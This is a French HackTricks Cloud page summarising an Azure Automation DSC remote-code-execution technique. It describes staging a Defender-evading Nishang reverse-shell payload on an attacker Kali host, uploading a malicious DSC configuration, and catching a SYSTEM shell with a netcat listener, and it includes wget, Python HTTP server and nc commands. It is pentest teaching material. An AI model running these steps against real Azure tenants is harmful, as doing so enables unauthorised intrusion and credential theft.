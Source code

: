 # Az - Configuration d'état RCE

{% hint style="success" %}
Apprenez et pratiquez le piratage AWS :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le piratage GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
{% endhint %}

**Consultez l'article complet sur : [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### Résumé de la préparation de l'infrastructure du serveur distant (C2) et des étapes

#### Aperçu
Le processus implique la mise en place d'une infrastructure de serveur distant pour héberger une charge utile `Invoke-PowerShellTcp.ps1` de Nishang modifiée, nommée `RevPS.ps1`, conçue pour contourner Windows Defender. La charge utile est servie à partir d'une machine Kali Linux avec l'IP `40.84.7.74` en utilisant un serveur HTTP Python simple. L'opération est exécutée à travers plusieurs étapes :

#### Étape 1 — Créer des fichiers
- **Fichiers requis :** Deux scripts PowerShell sont nécessaires :
1. `reverse_shell_config.ps1` : Un fichier de configuration d'état souhaité (DSC) qui récupère et exécute la charge utile. Il est disponible sur [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1` : Un script pour publier la configuration sur la machine virtuelle, disponible sur [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Personnalisation :** Les variables et paramètres dans ces fichiers doivent être adaptés à l'environnement spécifique de l'utilisateur, y compris les noms de ressources, les chemins de fichiers et les identifiants de serveur/payload.

#### Étape 2 — Fichier de configuration Zip
- Le fichier `reverse_shell_config.ps1` est compressé dans un fichier `.zip`, le rendant prêt pour le transfert vers le compte de stockage Azure.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Étape 3 — Définir le contexte de stockage & Télécharger
- Le fichier de configuration compressé est téléchargé dans un conteneur de stockage Azure prédéfini, azure-pentest, en utilisant la commande Set-AzStorageBlobContent d'Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Étape 4 — Préparation de la boîte Kali
- Le serveur Kali télécharge la charge utile RevPS.ps1 à partir d'un dépôt GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- Le script est modifié pour spécifier la machine virtuelle Windows cible et le port pour le shell inversé.

#### Étape 5 — Publier le fichier de configuration
- Le fichier de configuration est exécuté, ce qui entraîne le déploiement du script de shell inversé à l'emplacement spécifié sur la machine virtuelle Windows.

#### Étape 6 — Héberger la charge utile et configurer l'écoute
- Un serveur Python SimpleHTTPServer est démarré pour héberger la charge utile, ainsi qu'un écouteur Netcat pour capturer les connexions entrantes.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- La tâche planifiée exécute la charge utile, obtenant des privilèges au niveau du SYSTEM.

#### Conclusion

La réussite de cette procédure ouvre de nombreuses possibilités pour d'autres actions, telles que le vol d'informations d'identification ou l'extension de l'attaque à plusieurs VM. Le guide encourage l'apprentissage continu et la créativité dans le domaine de la configuration d'état Azure Automation DSC.

{% hint style="success" %}
Apprenez et pratiquez le piratage AWS : <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le piratage GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
{% endhint %}
